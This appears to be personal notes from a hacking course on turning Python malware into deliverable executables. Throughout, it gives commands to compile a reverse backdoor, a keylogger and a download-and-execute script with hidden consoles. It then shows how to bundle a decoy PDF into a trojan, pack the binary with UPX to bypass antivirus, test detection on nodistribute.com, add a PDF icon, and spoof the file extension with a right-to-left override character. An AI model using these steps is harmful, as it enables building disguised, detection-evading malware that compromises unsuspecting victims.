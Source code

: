 # Packaging

Compile in Windows

Go to python.org, download python 2.7 for windows 

C:\Python27\python.exe -m pip install pyinstaller

C:\Python27\Scripts\pyinstaller.exe reverse_backdoor.py --onefile --noconsole


Install pyinstaller in Linux

Go to python.org, download python 2.7 for windows 

cd Download/ wine msiexec /i python-2.7.14.msi

cd ..

cd .wine/drive_c/Python27

wine python.exe -m pip install pyinstaller


Compile keylogger from linux

cd PycharmProjects/keylogger

wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput

wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe zlogger.py --onefile --noconsole


Compile more than 2 program from linux

cd download_and_execute

wine /root/.wine/drive_c/Python7/python.exe -m pip uninstall requests

wine /root/.wine/drive_c/Python27/python.exe -m pip install requests==2.5.1

wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile --noconsole download_and_execute.py


Creating trojan (adding 2 program) from linux

cd reverse_backdoor

edit the file path in reverse_backdoor

wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;." --onefile --noconsole reverse_backdoor.py

Bypassing antivirus with upx

go to https://github.com/upx/upx/releases/tag/

Download latest version and extract it

cd /opt/upx

./upx /root/PycharmProjects/reverse_backdoor/dist/reverse_backdoor.exe -o compressed_backdoor.exe

check file with nodistribute.com



Adding icons to program

Go to iconfinder.com, download png(512x512)

Go to easyicon.net, convert png to ico file(microsoft, 512x512)

Go to executable folder

wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;." --onefile --noconsole --icon /root/Downloads/pdf.ico reverse_backdoor.py


Spoofing file extension[convert pdf to exe file]

go to https://unicode.flopp.net/c/202E for right-to-left override, copy character

edit in executable file, for example fdp.exe


Convert python to osx executable

osx comes with python

download get-pip file from https://bootstrap.pypa.io

cd Downloads

sudo python get-pip.py

sudo pip install pyinstaller

pyinstaller --onefile --noconsole --icon pdf.icns download_and_execute.py

Convert python program to linux

pip install pyinstaller

pyinstaller --onefile --noconsole reverse_backdoor.py











